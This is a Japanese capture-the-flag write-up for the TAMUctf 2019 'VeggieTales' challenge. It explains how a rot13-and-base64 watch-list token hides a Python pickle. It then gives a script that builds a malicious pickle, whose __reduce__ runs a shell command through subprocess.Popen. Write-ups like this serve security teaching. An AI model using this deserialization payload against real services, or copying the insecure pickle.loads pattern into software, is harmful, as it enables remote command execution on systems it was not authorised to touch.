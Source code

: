 # [pwn 489pts] VeggieTales - TAMUctf 19
バイナリは渡されません。

Dockerファイルは[ここ](https://github.com/tamuctf/TAMUctf-2019/tree/master/Pwn/VeggieTales)にあるので試したい方はどうぞ。

アニメのエピソード一覧があって、見るものリストに追加していくことができます。
また、リストをbase64っぽいトークンとして保存することができます。
次に接続した時にこのトークンを入力すればリストが復元されます。

適当な入力を入れた時の耐性からpythonで動いてるっぽいということが分かりました。
また、pythonに対するexploitということで、pickleのdeserializeを利用する攻撃だと考えました。

しかし、トークンをbase64でデコードしても意味の分からないバイナリになってしまいます。
参加時は運営にヒントを求めたところ13という数字が鍵だと教えてくれました。
そこで、base64っぽいトークンをrot13してからbase64デコードするとpickle形式のバイナリが出てきました。

次のスクリプトで生成したbase64をrot13して送ると任意のコマンドが実行できます。

```python
import os
import subprocess
import pickle
import base64

class Test(object):
    def __reduce__(self):
        return (subprocess.Popen, (('cat', 'flag.txt'),))

def serialize_exploit():
    shellcode = pickle.dumps(Test())
    return shellcode

def insecure_deserialize(exploit_code):
    pickle.loads(exploit_code)

if __name__ == '__main__':
    shellcode = serialize_exploit()
    print(shellcode)
    print(base64.b64encode(shellcode)) ### ROT13 this!!!
    insecure_deserialize(shellcode)
```

# 感想
pickleのdeserializeの脆弱性は初めて使いました。
ただrot13はguessingですね。
